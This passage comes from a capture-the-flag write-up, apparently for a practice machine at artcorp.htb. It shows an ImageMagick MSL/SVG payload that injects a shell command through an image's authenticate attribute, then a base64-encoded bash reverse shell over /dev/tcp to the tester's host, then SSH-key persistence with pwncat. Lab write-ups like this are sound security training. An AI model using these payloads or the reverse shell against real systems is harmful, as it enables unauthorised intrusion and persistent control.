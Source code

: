 Let's create a file called `poc.svg` with this text using `nano` (or any text editor). Now, we can upload this image to `/var/www/dev01.artcorp.htb/convert_images/` with `pwncat`'s `upload` command. Now, we just need to wait at most a minute for the cron job to run. For whatever reason, this does not work. However, changing the directory where the file is written to `/dev/shm/` causes the file to be written. We can find world writeable directories with `find / -maxdepth 3 -type d -perm -777`. So, the working exploit is:


```xml
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

This creates the file `/dev/shm/0wned` (once the cron job runs() with the following output: `uid=1000(thomas) gid=1000(thomas) groups=1000(thomas),27(sudo)`. So, we have command execution. We can set the command to a reverse shell such as `bash -i >& /dev/tcp/10.10.14.169/37580 0>&1` and start a listener on port `37580` (`pwncat-cs -lp 37580`).

We upload this svg to `/var/www/dev01.artcorp.htb/convert_images`:

```xml
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvMzc1ODAgMD4mMQ== | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Sure enough, after waiting about 20 seconds, we get a reverse shell as thomas.

We can now get the `user.txt` flag with `cat ~/user.txt`.

## Privilege Escalation

First, we can get persistance using `pwncat` by running `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in the local shell. I set the permissions of the `.ssh` folder to be what they should be with `cd && chmod 700 .ssh && chmod 600 .ssh/authorized_keys`. Now we can connect with `pwncat-cs thomas@artcorp.htb --identity /home/kali/.ssh/id_rsa` over SSH.

Looking at `/tmp` when logged in as `thomas` shows different files than when logged in as `www-data`, which is why writing the file to `/tmp` didn't working during the lateral movement phase. Apparently, each user has their own `/tmp` directory.
